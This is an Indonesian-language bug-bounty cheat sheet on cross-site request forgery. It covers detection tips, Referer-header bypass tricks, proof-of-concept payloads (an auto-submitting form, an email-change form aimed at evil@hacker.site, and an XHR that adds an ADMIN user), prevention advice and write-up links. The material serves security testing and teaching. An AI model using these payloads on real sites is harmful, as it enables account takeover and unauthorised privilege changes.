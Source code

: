 # CSRF
Cross Site Request Forgery adalah serangan yang memaksa pengguna agar backend mengeksekusi perintah yang tidak seharusnya dizinkan, menipu website dari request user yang terpercaya dan mengirim Request palsu dari authenticate user. Terdapat 2 penyebab suatu aplikasi rentan akan CSRF, yaitu:
- Tidak ada pertahanan anti-CSRF
- Anti CSRF yang lemah (cookie only based solution, confirmation screen, using POST, dan weak referrer header)
<img width=500 src="https://user-images.githubusercontent.com/52058660/121773442-33437280-cba6-11eb-8890-9f5d2f7900fa.png">


## HOW TO FIND THEM
- Cek Form yang tidak menirimkanan extra token ketika melakukan request, biasanya dilabeli dengan csrf_token, csrf, token dll
- Misalkan saat mengganti password, tidak ada form confirmation untuk memasukkan password yang cuurent digunakan
- Cari form yang menggnerate impact, seperti pembayaran, pengantian password, hapus file, dan menambahkan file
- No CSRF token, 80% pasti ada bug
- The easiest way to check whether an application is vulnerable is to see if each link and form contains an unpredictable token for each user. Without such an unpredictable token, attackers can forge malicious requests. Focus on the links and forms that invoke state-changing functions, since those are the most important CSRF targets.
- "When first hunting for CSRF bugs I look for areas on the website which should contain protection around them, such as updating your account information."
  - What behavior do you see when sending a blank CSRF value, did it reveal any framework information from an error?
  - Did it reflect your changes but with a CSRF error?
  - Have you seen this parameter name used on other websites? Perhaps there isn’t even any protection! Test their most secure features (account functions usually as mentioned above) and work your way backwards.
- Jika Session aplikasi bergantung pada `http cookie` dan `basic authentication`
- Cek misconfigurasi CORS, sebenarnya CORS malah melemahkan browser karena melonggarkan aturan dari Same-origin policy sehingga apabila terjadi misconfigurasi CORS, attacker dapat memanfaatkan celah tersebut untuk melancarkan serangan CSRF.


## Bypass
- Ketika kita berhasil mengeksploitasi XSS, segala defense mechanisms terhadap CSRF menjadi useless.
- Bypass referer header
  - Salah satu langkah preventif untuk menanggulangi CSRF adalah memastian referer header berisikan website yang valid. Tapi bagaimana jika fielder header tersebut dihilangkan? kadang kita bisa membypass nya dengan meta tag berikut.
  ```
  <meta name="referrer" content="no-referrer" />
  <iframe src=”data:text/html;base64,form_code_here”>
  ```
  - Kadang developer juga hanya memastika bahwa referer header mengandung domain mereka, kita bisa mengakalinya dengan menambahkan sebuah direktori dengan domain target pada evil server kita, contoh: `https://www.yoursite.com/https://www.theirsite.com/` atau `https://www.theirsite.computer/`.


## POC

- Menggunakan HTML Form
```
<form method="$method" action="$url">
  <input type="hidden" name="$param1name" value="$param1value">
  <input type="submit" value="submit">
  </form>
<script> document.forms[0].submit();</script>
```
```
<form action="change.php" method="POST" id="CSRForm">
  <input name="old" value="myC00lemail@victim.site">
  <input name="new" value="evil@hacker.site">
  <img src=x onerror="CSRForm.submit();">
</form>
```
- Menggunakan XHR
```
<script type="text/javascript">
  var url =  "http://1.csrf.labs/add_user.php";
  var params =  "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=";    
  var CSRF = new XMLHttpRequest();
  CSRF.open("POST", url, true);
  CSRF.withCredentials = 'true'; //IMPORTANTMUST!!
  CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  CSRF.send(params);
</script> 
```

## PREVENTION
- CSRF Token
  - CSRF token should be generated on the server-side
  - CSRF token should not be transmitted using cookies
  - CSRF token should be unique per session, secret, and unpredictable
  - CSRF token should no be leaked in the server logs or in the URL

- Double submit Cookie
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com 
```
- Samesite Cookie
  - bisa dibypass dengan modifikasi GET
  ```
  Set-Cookie: JSESSIONID=xxxxx; SameSite=Strict
  Set-Cookie: JSESSIONID=xxxxx; SameSite=Lax
  ```


## RESOURCE
- [OWASP - Cross Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)
- [OWASP - Reviewing Code for Cross-Site Request Forgery Issues Overview](https://owasp.org/www-project-code-review-guide/reviewing-code-for-csrf-issues)
- [OWASP Web Security Testing Guide - Testing for Cross Site Request Forgery](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery.md)
- [OWASP Cheat Sheet Series - Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [InsiderPhD - Finding Your First Bug: Cross-Site Request Forgery (CSRF)](https://www.youtube.com/watch?v=ULvf6N8AL2A)
- [CSRF, CORS, and HTTP Security headers Demystified](https://blog.vnaik.com/posts/web-attacks.html)[PayloadsAllTheThings - Cross-Site Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection#methodology)
- [Zseano's Methodology - CSRF](https://www.bugbountyhunter.com/methodology/loader.php#page=22)
- [BugBountyHunter - CSRF](https://www.bugbountyhunter.com/vulnerability/?type=csrf)
- [Portswigger Academy - Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf)
- [OWASP Juice Shop - Broken Access Control](https://owasp.org/www-project-juice-shop)
- [OWASP Security Knowledge Framework - CSRF](https://owasp-skf.gitbook.io/asvs-write-ups/kbid-5-csrf)

## WRITE-UP
|Write-ups|Analisa|
|---|---|
|[CSRF at Kaskus.co.id](https://medium.com/@daffailhamr/csrf-at-kaskus-co-id-f8e31864807f)||
|[Refocusing in bug hunting, Bonus: An interestingly simple to test CSRF bypass](https://medium.com/bugbountywriteup/refocusing-in-bug-hunting-bonus-an-interestingly-simple-to-test-csrf-bypass-8595b3312147)|Mengganti content-type non-form  (i.e. `application/json, application/x-url-encoded`, etc.) menjadi `form-multipart`|
|[Got Nice catch by Google](https://parthdeshani.medium.com/got-nice-catch-by-google-5e6a8211371c)|Periksa parameter state. State parameter is used in Oauth to prevent CSRF attacks|
[JSON CSRF To FormData Attack](https://medium.com/@osamaavvan/json-csrf-to-formdata-attack-eb65272376a2)


